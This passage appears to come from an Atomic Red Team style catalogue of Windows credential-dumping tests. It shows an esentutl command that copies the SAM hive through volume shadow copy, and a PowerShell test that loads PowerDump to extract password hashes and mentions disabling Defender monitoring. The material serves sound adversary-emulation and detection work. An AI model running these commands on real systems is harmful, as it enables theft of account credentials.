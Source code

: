 **Supported Platforms:** Windows


**auto_generated_guid:** a90c2f4d-6726-444e-99d2-a00cd7c20480





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_path | Path to the file to copy | path | %SystemRoot%/system32/config/SAM|
| file_name | Name of the copied file | string | SAM|
| copy_dest | Destination of the copied file | string | %temp%|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
esentutl.exe /y /vss #{file_path} /d #{copy_dest}/#{file_name}
```

#### Cleanup Commands:
```cmd
del #{copy_dest}\#{file_name} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - PowerDump Hashes and Usernames from Registry
Executes a hashdump by reading the hashes from the registry.

**Supported Platforms:** Windows


**auto_generated_guid:** 804f28fc-68fc-40da-b5a2-e9d0bce5c193






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host "STARTING TO SET BYPASS and DISABLE DEFENDER REALTIME MON" -fore green
Import-Module "PathToAtomicsFolder\..\ExternalPayloads\PowerDump.ps1"
Invoke-PowerDump
```
